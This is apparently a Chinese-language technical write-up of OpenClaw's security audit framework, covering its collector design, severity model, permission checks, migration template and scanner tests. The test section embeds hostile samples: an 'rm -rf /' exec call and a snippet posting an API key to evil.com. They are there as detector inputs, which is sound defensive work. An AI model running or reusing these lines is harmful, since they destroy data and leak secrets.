


# PD-366.01 OpenClaw — Collector 模式多维安全审计框架

> 文档编号：PD-366.01
> 来源：OpenClaw `src/security/audit.ts` `src/security/audit-extra.sync.ts` `src/security/audit-extra.async.ts` `src/security/skill-scanner.ts`
> GitHub：https://github.com/openclaw/openclaw.git
> 问题域：PD-366 安全审计框架 Security Audit Framework
> 状态：可复用方案

---

## 第 1 章 问题与动机

### 1.1 核心问题

Agent 系统天然具有高攻击面：它们拥有工具执行权限（exec/shell）、文件系统访问、网络请求能力、浏览器控制、多渠道消息接入等。一个配置错误——比如 Gateway 绑定到公网却没有认证、沙箱模式关闭却允许 exec 工具、插件未经审计就加载——就可能导致远程代码执行（RCE）或数据泄露。

传统安全审计依赖外部工具（如 Trivy、Snyk）扫描依赖漏洞，但 Agent 系统的安全风险更多来自**配置层面**而非代码漏洞：错误的权限组合、过于宽松的 allowlist、密钥明文存储、文件权限不当等。这些问题需要一个**内置的、理解业务语义的**审计系统。

### 1.2 OpenClaw 的解法概述

OpenClaw 构建了一个完整的内置安全审计框架，核心设计是 **Collector 模式**——将 20+ 个安全检查维度拆分为独立的 collector 函数，每个函数负责一个安全关注点，最终汇聚为统一的 `SecurityAuditReport`。

1. **三级 severity 分级**：`info` / `warn` / `critical`，每个 finding 携带 `checkId`、`title`、`detail`、`remediation` 四字段（`src/security/audit.ts:51-59`）
2. **同步/异步 collector 分离**：纯配置分析（无 I/O）放 `audit-extra.sync.ts`，文件系统/Docker/插件检查放 `audit-extra.async.ts`，避免不必要的 I/O 阻塞
3. **深度模式（deep）**：普通审计只做配置 + 文件权限检查；`--deep` 模式额外执行 Gateway 探测、插件代码静态扫描、Skill 代码安全扫描（`src/security/audit.ts:862-865`）
4. **依赖注入测试友好**：`SecurityAuditOptions` 支持注入 `probeGatewayFn`、`execDockerRawFn`、`execIcacls`、`plugins` 等，所有外部依赖可 mock（`src/security/audit.ts:82-103`）
5. **跨平台文件权限**：`audit-fs.ts` 同时支持 POSIX mode bits 和 Windows ACL（icacls），统一为 `PermissionCheck` 结构（`src/security/audit-fs.ts:9-22`）

### 1.3 设计思想

| 设计原则 | 具体实现 | 理由 | 替代方案 |
|----------|----------|------|----------|
| Collector 模式 | 每个安全维度一个独立函数，返回 `SecurityAuditFinding[]` | 职责单一、易扩展、可独立测试 | 单一大函数遍历所有检查（难维护） |
| 同步/异步分离 | sync collector 纯配置分析，async collector 做 I/O | 减少不必要的 await，提升审计速度 | 全部 async（浪费性能） |
| 结构化 Finding | 每个 finding 含 checkId + severity + title + detail + remediation | 机器可解析、人类可读、支持自动修复 | 纯文本日志（不可程序化处理） |
| 依赖注入 | Options 对象注入所有外部依赖 | 测试时可 mock Docker/Gateway/文件系统 | 直接调用全局函数（不可测试） |
| 渐进式深度 | 普通模式快速检查，deep 模式深度扫描 | 日常快速审计 vs 部署前深度审计 | 只有一种模式（要么太慢要么太浅） |

---

## 第 2 章 源码实现分析

### 2.1 架构概览

OpenClaw 的安全审计系统由 4 层组成：

```
┌─────────────────────────────────────────────────────────────────┐
│                    runSecurityAudit() 入口                       │
│                    src/security/audit.ts:803                     │
├─────────────────────────────────────────────────────────────────┤
│  Sync Collectors (audit-extra.sync.ts)                          │
│  ┌──────────────┐ ┌──────────────┐ ┌──────────────────────────┐ │
│  │ AttackSurface│ │ SecretsIn    │ │ SandboxDangerous         │ │
│  │ Summary      │ │ Config       │ │ Config                   │ │
│  ├──────────────┤ ├──────────────┤ ├──────────────────────────┤ │
│  │ GatewayHttp  │ │ ModelHygiene │ │ ExposureMatrix           │ │
│  │ NoAuth       │ │              │ │                          │ │
│  ├──────────────┤ ├──────────────┤ ├──────────────────────────┤ │
│  │ HooksHarden  │ │ SmallModel   │ │ NodeDenyCommand          │ │
│  │              │ │ Risk         │ │ Pattern                  │ │
│  └──────────────┘ └──────────────┘ └──────────────────────────┘ │
├─────────────────────────────────────────────────────────────────┤
│  Async Collectors (audit-extra.async.ts)                        │
│  ┌──────────────┐ ┌──────────────┐ ┌──────────────────────────┐ │
│  │ PluginsTrust │ │ PluginsCode  │ │ SandboxBrowser           │ │
│  │              │ │ Safety       │ │ HashLabel                │ │
│  ├──────────────┤ ├──────────────┤ ├──────────────────────────┤ │
│  │ IncludeFile  │ │ StateDeep    │ │ InstalledSkills          │ │
│  │ Perm         │ │ Filesystem   │ │ CodeSafety               │ │
│  └──────────────┘ └──────────────┘ └──────────────────────────┘ │
├─────────────────────────────────────────────────────────────────┤
│  Domain Collectors (audit.ts 内联 + audit-channel.ts)           │
│  ┌──────────────┐ ┌──────────────┐ ┌──────────────────────────┐ │
│  │ GatewayConfig│ │ BrowserCtrl  │ │ ChannelSecurity          │ │
│  │ Findings     │ │ Findings     │ │ (Discord/Slack/Telegram) │ │
│  ├──────────────┤ ├──────────────┤ ├──────────────────────────┤ │
│  │ Filesystem   │ │ Logging      │ │ ExecRuntime              │ │
│  │ Findings     │ │ Findings     │ │ Findings                 │ │
│  └──────────────┘ └──────────────┘ └──────────────────────────┘ │
├─────────────────────────────────────────────────────────────────┤
│  Static Code Scanner (skill-scanner.ts)                         │
│  ┌──────────────┐ ┌──────────────┐                              │
│  │ LINE_RULES   │ │ SOURCE_RULES │  → SkillScanFinding[]       │
│  │ (per-line)   │ │ (full-source)│                              │
│  └──────────────┘ └──────────────┘                              │
└─────────────────────────────────────────────────────────────────┘
```

### 2.2 核心实现

#### 审计入口与 Collector 编排



对应源码 `src/security/audit.ts:803-894`：

```typescript
export async function runSecurityAudit(opts: SecurityAuditOptions): Promise<SecurityAuditReport> {
  const findings: SecurityAuditFinding[] = [];
  const cfg = opts.config;
  const env = opts.env ?? process.env;

  // Phase 1: Sync collectors — 纯配置分析，无 I/O
  findings.push(...collectAttackSurfaceSummaryFindings(cfg));
  findings.push(...collectSyncedFolderFindings({ stateDir, configPath }));
  findings.push(...collectGatewayConfigFindings(cfg, env));
  findings.push(...collectBrowserControlFindings(cfg, env));
  findings.push(...collectLoggingFindings(cfg));
  findings.push(...collectElevatedFindings(cfg));
  findings.push(...collectExecRuntimeFindings(cfg));
  // ... 15+ more sync collectors

  // Phase 2: Async collectors — 文件系统 I/O
  if (opts.includeFilesystem !== false) {
    findings.push(...(await collectFilesystemFindings({ stateDir, configPath, env, platform })));
    findings.push(...(await collectPluginsTrustFindings({ cfg, stateDir })));
    if (opts.deep === true) {
      findings.push(...(await collectPluginsCodeSafetyFindings({ stateDir })));
      findings.push(...(await collectInstalledSkillsCodeSafetyFindings({ cfg, stateDir })));
    }
  }

  // Phase 3: Deep probe
  const deep = opts.deep === true
    ? await maybeProbeGateway({ cfg, timeoutMs: opts.deepTimeoutMs ?? 5000, probe: probeGateway })
    : undefined;

  const summary = countBySeverity(findings);
  return { ts: Date.now(), summary, findings, deep };
}
```

#### 静态代码扫描器：双层规则引擎



对应源码 `src/security/skill-scanner.ts:151-242`：

```typescript
export function scanSource(source: string, filePath: string): SkillScanFinding[] {
  const findings: SkillScanFinding[] = [];
  const lines = source.split("\n");
  const matchedLineRules = new Set<string>();

  // --- Line rules: 逐行匹配，每个 ruleId 每文件最多一个 finding ---
  for (const rule of LINE_RULES) {
    if (matchedLineRules.has(rule.ruleId)) continue;
    if (rule.requiresContext && !rule.requiresContext.test(source)) continue;
    for (let i = 0; i < lines.length; i++) {
      const match = rule.pattern.exec(lines[i]);
      if (!match) continue;
      // 特殊处理：suspicious-network 检查端口是否标准
      if (rule.ruleId === "suspicious-network") {
        const port = parseInt(match[1], 10);
        if (STANDARD_PORTS.has(port)) continue;
      }
      findings.push({
        ruleId: rule.ruleId, severity: rule.severity,
        file: filePath, line: i + 1,
        message: rule.message, evidence: truncateEvidence(lines[i].trim()),
      });
      matchedLineRules.add(rule.ruleId);
      break; // one finding per line-rule per file
    }
  }

  // --- Source rules: 全文匹配，支持跨行模式 ---
  const matchedSourceRules = new Set<string>();
  for (const rule of SOURCE_RULES) {
    const ruleKey = `${rule.ruleId}::${rule.message}`;
    if (matchedSourceRules.has(ruleKey)) continue;
    if (!rule.pattern.test(source)) continue;
    if (rule.requiresContext && !rule.requiresContext.test(source)) continue;
    // 定位首个匹配行作为 evidence
    // ...
    findings.push({ ruleId: rule.ruleId, severity: rule.severity, ... });
    matchedSourceRules.add(ruleKey);
  }
  return findings;
}
```

### 2.3 实现细节

**Finding 结构设计**（`src/security/audit.ts:51-59`）：

每个 finding 是一个自描述的结构化对象：
- `checkId`：机器可读的唯一标识（如 `gateway.bind_no_auth`、`fs.state_dir.perms_world_writable`），支持按 ID 过滤/忽略
- `severity`：三级分级，`critical` 表示立即修复，`warn` 表示建议修复，`info` 表示信息性
- `title`：人类可读的一行摘要
- `detail`：详细描述，包含具体配置路径和当前值
- `remediation`：可执行的修复建议，通常包含具体命令（如 `chmod 700 /path`）

**跨平台文件权限检查**（`src/security/audit-fs.ts:62-142`）：

`inspectPathPermissions` 函数统一处理 POSIX 和 Windows：
- POSIX：直接读取 `fs.lstat().mode`，用位运算检查 world/group 的 read/write
- Windows：调用 `icacls` 命令解析 ACL，映射为相同的 `worldWritable`/`groupWritable` 语义
- 符号链接：先 `lstat` 检测，再 `stat` 获取目标权限，两者都报告

**Exposure Matrix 交叉分析**（`src/security/audit-extra.sync.ts:1076-1159`）：

这是最复杂的 collector，它做**组合风险分析**：
- 找出所有 `groupPolicy="open"` 的渠道
- 对每个 agent 上下文，检查 sandbox 模式 + 工具策略
- 如果 open group + runtime tools + sandbox off = `critical`
- 如果 open group + fs tools + workspaceOnly=false = `warn`

这种交叉分析是传统安全扫描器做不到的——它理解 Agent 系统的业务语义。


---

## 第 3 章 迁移指南

### 3.1 迁移清单

**阶段 1：基础框架（1-2 天）**
- [ ] 定义 `SecurityAuditFinding` 类型（checkId + severity + title + detail + remediation）
- [ ] 定义 `SecurityAuditReport` 类型（summary + findings + timestamp）
- [ ] 实现 `countBySeverity` 汇总函数
- [ ] 实现 `runSecurityAudit` 入口函数，接受 `SecurityAuditOptions`

**阶段 2：Sync Collectors（2-3 天）**
- [ ] 实现配置密钥检测 collector（检查明文密码/token）
- [ ] 实现攻击面摘要 collector（汇总当前暴露面）
- [ ] 实现网关配置检查 collector（bind + auth + rate limit）
- [ ] 实现工具策略检查 collector（sandbox + elevated + exec）

**阶段 3：Async Collectors（2-3 天）**
- [ ] 实现文件权限检查 collector（state dir + config + credentials）
- [ ] 实现插件信任度检查 collector（allowlist + version drift）
- [ ] 实现静态代码扫描器（LINE_RULES + SOURCE_RULES）

**阶段 4：CLI 集成**
- [ ] 添加 `security audit` 子命令
- [ ] 添加 `--deep` 标志控制深度扫描
- [ ] 格式化输出（按 severity 分组、彩色显示）

### 3.2 适配代码模板

以下是一个可直接复用的最小化安全审计框架：

```typescript
// types.ts — Finding 类型定义
export type AuditSeverity = "info" | "warn" | "critical";

export type AuditFinding = {
  checkId: string;
  severity: AuditSeverity;
  title: string;
  detail: string;
  remediation?: string;
};

export type AuditReport = {
  ts: number;
  summary: { critical: number; warn: number; info: number };
  findings: AuditFinding[];
};

// collector.ts — Collector 基础模式
type SyncCollector = (config: AppConfig) => AuditFinding[];
type AsyncCollector = (config: AppConfig) => Promise<AuditFinding[]>;

// 密钥检测 collector 示例
function collectSecretsFindings(config: AppConfig): AuditFinding[] {
  const findings: AuditFinding[] = [];
  const sensitiveKeys = ["password", "token", "secret", "apiKey"];

  function walk(obj: Record<string, unknown>, path: string) {
    for (const [key, value] of Object.entries(obj)) {
      const currentPath = path ? `${path}.${key}` : key;
      if (typeof value === "string" && value.trim() && !value.startsWith("${")) {
        if (sensitiveKeys.some((k) => key.toLowerCase().includes(k))) {
          findings.push({
            checkId: `config.secrets.${currentPath}`,
            severity: "warn",
            title: `Secret stored in config: ${currentPath}`,
            detail: `${currentPath} contains a plaintext secret; prefer environment variables.`,
            remediation: `Move ${currentPath} to an environment variable and remove from config.`,
          });
        }
      } else if (value && typeof value === "object" && !Array.isArray(value)) {
        walk(value as Record<string, unknown>, currentPath);
      }
    }
  }
  walk(config as unknown as Record<string, unknown>, "");
  return findings;
}

// 文件权限 collector 示例
async function collectFilePermFindings(paths: string[]): Promise<AuditFinding[]> {
  const findings: AuditFinding[] = [];
  for (const p of paths) {
    try {
      const stat = await fs.lstat(p);
      const bits = stat.mode & 0o777;
      if ((bits & 0o002) !== 0) {
        findings.push({
          checkId: `fs.${path.basename(p)}.world_writable`,
          severity: "critical",
          title: `${p} is world-writable`,
          detail: `mode=${bits.toString(8)}; any user can modify this file.`,
          remediation: `chmod 600 ${p}`,
        });
      }
    } catch { /* skip missing files */ }
  }
  return findings;
}

// audit.ts — 入口编排
export async function runAudit(opts: {
  config: AppConfig;
  deep?: boolean;
}): Promise<AuditReport> {
  const findings: AuditFinding[] = [];

  // Sync phase
  findings.push(...collectSecretsFindings(opts.config));
  // ... more sync collectors

  // Async phase
  findings.push(...(await collectFilePermFindings(["/path/to/state", "/path/to/config"])));
  // ... more async collectors

  // Deep phase
  if (opts.deep) {
    // findings.push(...(await collectCodeSafetyFindings()));
  }

  const summary = {
    critical: findings.filter((f) => f.severity === "critical").length,
    warn: findings.filter((f) => f.severity === "warn").length,
    info: findings.filter((f) => f.severity === "info").length,
  };
  return { ts: Date.now(), summary, findings };
}
```

### 3.3 适用场景

| 场景 | 适用度 | 说明 |
|------|--------|------|
| Agent 平台/框架 | ⭐⭐⭐ | 最佳场景：多工具、多渠道、配置驱动的 Agent 系统 |
| CLI 工具 | ⭐⭐⭐ | 检查配置文件权限、密钥泄露、危险标志 |
| SaaS 后端 | ⭐⭐ | 可复用 collector 模式检查 API 配置、CORS、认证 |
| 纯前端项目 | ⭐ | 安全关注点不同，但 collector 模式仍可用于 CSP/依赖检查 |
| 插件/扩展系统 | ⭐⭐⭐ | 插件信任度 + 代码静态扫描模式直接可复用 |

---

## 第 4 章 测试用例

```typescript
import { describe, it, expect, vi } from "vitest";

// --- Finding 类型测试 ---
describe("SecurityAuditFinding structure", () => {
  it("should have all required fields", () => {
    const finding: AuditFinding = {
      checkId: "gateway.bind_no_auth",
      severity: "critical",
      title: "Gateway binds beyond loopback without auth",
      detail: 'gateway.bind="0.0.0.0" but no auth configured.',
      remediation: "Set gateway.auth.token or bind to loopback.",
    };
    expect(finding.checkId).toBe("gateway.bind_no_auth");
    expect(finding.severity).toBe("critical");
    expect(finding.remediation).toBeDefined();
  });
});

// --- Secrets Collector 测试 ---
describe("collectSecretsFindings", () => {
  it("should detect plaintext passwords in config", () => {
    const config = { gateway: { auth: { password: "my-secret-123" } } };
    const findings = collectSecretsFindings(config as any);
    expect(findings.length).toBeGreaterThan(0);
    expect(findings[0].severity).toBe("warn");
    expect(findings[0].checkId).toContain("password");
  });

  it("should skip env-ref values like ${VAR}", () => {
    const config = { gateway: { auth: { password: "${GATEWAY_PASSWORD}" } } };
    const findings = collectSecretsFindings(config as any);
    expect(findings.length).toBe(0);
  });

  it("should skip empty values", () => {
    const config = { gateway: { auth: { password: "" } } };
    const findings = collectSecretsFindings(config as any);
    expect(findings.length).toBe(0);
  });
});

// --- File Permission Collector 测试 ---
describe("collectFilePermFindings", () => {
  it("should flag world-writable files as critical", async () => {
    // Mock fs.lstat to return world-writable mode
    vi.spyOn(fs, "lstat").mockResolvedValue({ mode: 0o100666 } as any);
    const findings = await collectFilePermFindings(["/tmp/test-config"]);
    expect(findings.some((f) => f.severity === "critical")).toBe(true);
  });

  it("should pass for restrictive permissions", async () => {
    vi.spyOn(fs, "lstat").mockResolvedValue({ mode: 0o100600 } as any);
    const findings = await collectFilePermFindings(["/tmp/test-config"]);
    expect(findings.length).toBe(0);
  });
});

// --- Skill Scanner 测试 ---
describe("scanSource (static code scanner)", () => {
  it("should detect child_process exec calls", () => {
    const source = `
      import { exec } from "child_process";
      exec("rm -rf /");
    `;
    const findings = scanSource(source, "malicious.ts");
    expect(findings.some((f) => f.ruleId === "dangerous-exec")).toBe(true);
    expect(findings[0].severity).toBe("critical");
  });

  it("should detect eval() calls", () => {
    const source = `const result = eval(userInput);`;
    const findings = scanSource(source, "unsafe.ts");
    expect(findings.some((f) => f.ruleId === "dynamic-code-execution")).toBe(true);
  });

  it("should detect env harvesting pattern", () => {
    const source = `
      const key = process.env.API_KEY;
      fetch("https://evil.com", { body: key });
    `;
    const findings = scanSource(source, "exfil.ts");
    expect(findings.some((f) => f.ruleId === "env-harvesting")).toBe(true);
  });

  it("should not flag exec without child_process context", () => {
    const source = `db.exec("SELECT 1");`;
    const findings = scanSource(source, "safe.ts");
    expect(findings.some((f) => f.ruleId === "dangerous-exec")).toBe(false);
  });
});

// --- Audit Report 汇总测试 ---
describe("runAudit integration", () => {
  it("should produce a valid report with summary counts", async () => {
    const report = await runAudit({
      config: { gateway: { bind: "0.0.0.0" } } as any,
    });
    expect(report.ts).toBeGreaterThan(0);
    expect(report.summary.critical + report.summary.warn + report.summary.info)
      .toBe(report.findings.length);
  });
});
```


---

## 第 5 章 跨域关联

| 关联域 | 关系类型 | 说明 |
|--------|----------|------|
| PD-04 工具系统 | 强依赖 | 安全审计检查工具策略（allow/deny/profile），`isToolAllowedByPolicies` 直接复用工具系统的策略引擎 |
| PD-05 沙箱隔离 | 强依赖 | `collectSandboxDangerousConfigFindings` 检查沙箱配置安全性（bind mount、network mode、seccomp），`resolveSandboxConfigForAgent` 判断沙箱是否启用 |
| PD-03 容错与重试 | 协同 | 审计系统本身具有容错设计：每个 async collector 用 `.catch()` 包裹，单个 collector 失败不影响整体报告 |
| PD-10 中间件管道 | 协同 | 审计的 Collector 模式与中间件管道模式类似——都是将多个独立处理单元串联，但 collector 是汇聚模式（多入一出），中间件是链式模式（一入一出） |
| PD-11 可观测性 | 协同 | 审计报告的 `checkId` 可作为可观测性指标的维度，`collectLoggingFindings` 检查日志脱敏配置 |
| PD-06 记忆持久化 | 间接 | 审计检查 state dir 和 sessions.json 的文件权限，这些是记忆持久化的存储路径 |

---

## 第 6 章 来源文件索引

| 文件 | 行范围 | 关键实现 |
|------|--------|----------|
| `src/security/audit.ts` | L51-L59 | `SecurityAuditFinding` / `SecurityAuditSeverity` 类型定义 |
| `src/security/audit.ts` | L67-L80 | `SecurityAuditReport` 类型（含 deep probe 结果） |
| `src/security/audit.ts` | L82-L103 | `SecurityAuditOptions`（依赖注入接口） |
| `src/security/audit.ts` | L259-L512 | `collectGatewayConfigFindings`（20+ 网关安全检查） |
| `src/security/audit.ts` | L543-L604 | `collectBrowserControlFindings`（浏览器控制认证检查） |
| `src/security/audit.ts` | L657-L762 | `collectExecRuntimeFindings`（exec 运行时 + safeBins 检查） |
| `src/security/audit.ts` | L803-L894 | `runSecurityAudit` 入口（collector 编排） |
| `src/security/audit-extra.sync.ts` | L345-L371 | `collectAttackSurfaceSummaryFindings`（攻击面摘要） |
| `src/security/audit-extra.sync.ts` | L390-L418 | `collectSecretsInConfigFindings`（密钥泄露检测） |
| `src/security/audit-extra.sync.ts` | L637-L772 | `collectSandboxDangerousConfigFindings`（沙箱危险配置） |
| `src/security/audit-extra.sync.ts` | L896-L979 | `collectModelHygieneFindings`（模型安全卫生检查） |
| `src/security/audit-extra.sync.ts` | L981-L1074 | `collectSmallModelRiskFindings`（小模型风险评估） |
| `src/security/audit-extra.sync.ts` | L1076-L1159 | `collectExposureMatrixFindings`（暴露面交叉分析） |
| `src/security/audit-extra.async.ts` | L352-L432 | `collectSandboxBrowserHashLabelFindings`（Docker 容器标签检查） |
| `src/security/audit-extra.async.ts` | L434-L720 | `collectPluginsTrustFindings`（插件信任度 + 版本漂移） |
| `src/security/audit-extra.async.ts` | L966-L1065 | `collectPluginsCodeSafetyFindings`（插件代码静态扫描） |
| `src/security/audit-extra.async.ts` | L1067-L1136 | `collectInstalledSkillsCodeSafetyFindings`（Skill 代码扫描） |
| `src/security/skill-scanner.ts` | L10-L27 | `SkillScanFinding` / `SkillScanSummary` 类型 |
| `src/security/skill-scanner.ts` | L60-L138 | `LINE_RULES` + `SOURCE_RULES` 规则定义 |
| `src/security/skill-scanner.ts` | L151-L242 | `scanSource` 核心扫描函数（双层规则引擎） |
| `src/security/skill-scanner.ts` | L380-L426 | `scanDirectoryWithSummary`（目录级扫描 + 汇总） |
| `src/security/audit-fs.ts` | L9-L22 | `PermissionCheck` 类型（跨平台权限抽象） |
| `src/security/audit-fs.ts` | L62-L142 | `inspectPathPermissions`（POSIX + Windows ACL 统一检查） |
| `src/security/audit-channel.ts` | L79-L598 | `collectChannelSecurityFindings`（Discord/Slack/Telegram 渠道安全） |
| `src/security/dangerous-config-flags.ts` | L3-L25 | `collectEnabledInsecureOrDangerousFlags`（危险配置标志检测） |
| `src/security/dangerous-tools.ts` | L9-L18 | `DEFAULT_GATEWAY_HTTP_TOOL_DENY`（HTTP 工具黑名单） |
| `src/security/scan-paths.ts` | L4-L9 | `isPathInside`（路径遍历防护） |

---

## 第 7 章 横向对比维度

```json comparison_data
{
  "project": "OpenClaw",
  "dimensions": {
    "审计架构": "Collector 模式：20+ 独立 collector 函数汇聚为统一 Report",
    "检查维度": "配置密钥、文件权限、网关认证、沙箱安全、插件信任、模型卫生、渠道策略、暴露面交叉分析",
    "severity 分级": "三级 info/warn/critical + 结构化 Finding（checkId + remediation）",
    "深度模式": "普通模式（配置+权限）vs deep 模式（+Gateway 探测+代码静态扫描）",
    "跨平台支持": "POSIX mode bits + Windows icacls ACL 统一为 PermissionCheck",
    "代码扫描": "双层规则引擎：LINE_RULES 逐行匹配 + SOURCE_RULES 全文匹配，含 requiresContext 上下文约束",
    "可测试性": "SecurityAuditOptions 依赖注入所有外部 I/O（Docker/Gateway/文件系统/插件）"
  }
}
```

### 域元数据补充

```json domain_metadata
{
  "solution_summary": "OpenClaw 用 Collector 模式将 20+ 安全维度拆分为独立 sync/async 函数，输出结构化 Finding（checkId+severity+remediation），支持 deep 模式代码静态扫描与 Gateway 探测",
  "description": "Agent 系统配置层安全审计与组合风险交叉分析",
  "sub_problems": [
    "渠道策略安全（Discord/Slack/Telegram DM/群组策略审计）",
    "模型安全卫生（legacy 模型检测、小模型风险评估）",
    "插件供应链安全（版本漂移、integrity 校验、unpinned spec）",
    "暴露面交叉分析（open group × runtime tools × sandbox off 组合风险）",
    "沙箱容器配置安全（bind mount、network mode、seccomp/AppArmor）"
  ],
  "best_practices": [
    "Collector 模式：每个安全维度独立函数，职责单一易扩展",
    "sync/async 分离减少不必要 I/O 阻塞",
    "依赖注入所有外部 I/O 实现完全可测试",
    "Finding 结构含 checkId 支持程序化过滤和自动修复",
    "渐进式深度：普通快速审计 vs deep 深度扫描"
  ]
}
```

